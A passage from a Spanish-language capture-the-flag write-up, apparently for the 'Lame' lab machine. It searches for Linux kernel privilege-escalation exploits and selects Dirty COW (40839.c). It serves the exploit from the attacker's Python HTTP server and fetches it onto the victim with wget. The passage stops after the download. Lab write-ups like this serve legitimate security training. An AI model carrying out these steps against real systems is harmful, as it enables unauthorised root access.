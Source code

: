 Realizamos la búsqueda de posibles exploits que logren dar acceso privilegiado a la máquina.

```bash
  ❯ searchsploit linux kernel 2.6.24
  --------------------------------------------------- ---------------------------------
   Exploit Title                                     |  Path
  --------------------------------------------------- ---------------------------------
  Linux Kernel (Solaris 10 / < 5.10 138888-01) - Loc | solaris/local/15962.c
  Linux Kernel 2.4.1 < 2.4.37 / 2.6.1 < 2.6.32-rc5 - | linux/local/9844.py
  Linux Kernel 2.4.4 < 2.4.37.4 / 2.6.0 < 2.6.30.4 - | linux/local/19933.rb
  Linux Kernel 2.6.0 < 2.6.31 - 'pipe.c' Local Privi | linux/local/33321.c
  Linux Kernel 2.6.10 < 2.6.31.5 - 'pipe.c' Local Pr | linux/local/40812.c
  Linux Kernel 2.6.17 < 2.6.24.1 - 'vmsplice' Local  | linux/local/5092.c
  Linux Kernel 2.6.19 < 5.9 - 'Netfilter Local Privi | linux/local/50135.c
  Linux Kernel 2.6.20/2.6.24/2.6.27_7-10 (Ubuntu 7.0 | linux/remote/8556.c
  Linux Kernel 2.6.22 < 3.9 (x86/x64) - 'Dirty COW / | linux/local/40616.c
  Linux Kernel 2.6.22 < 3.9 - 'Dirty COW /proc/self/ | linux/local/40847.cpp
  Linux Kernel 2.6.22 < 3.9 - 'Dirty COW PTRACE_POKE | linux/local/40838.c
  Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_PO | linux/local/40839.c
  Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' /proc/self | linux/local/40611.c
```

Hacemos la descarga del script `linux/local/40839.c`.

```bash
  ❯ searchsploit -m linux/local/40839.c
  ❯ mv 40839.c dirty.c
```

Por medio de un servidor http generado en python desde nuestra máquina, vamos a compartir el exploit descargado.

```bash
  ❯ sudo python3 -m http.server 80
```

Desde la maquina víctima, por medio de la utilidad `wget` descargamos el exploit compartido anteriormente.

```bash
daemon@lame:/tmp$ wget http://10.10.14.6/dirty.c
  --00:53:49--  http://10.10.14.6/dirty.c
             => `dirty.c'
  Connecting to 10.10.14.6:80... connected.
  HTTP request sent, awaiting response... 200 OK
  Length: 4,817 (4.7K) [text/x-csrc]
  
   0% [                                     ] 0             --.--100%[====================  ================>] 4,817         --.--K/s             
  
  00:53:50 (908.03 KB/s) - `dirty.c' saved [4817/4817]
```

<p style="text-align: center;">
<img src="/assets/images/lame/05-exploit.png">
</p>
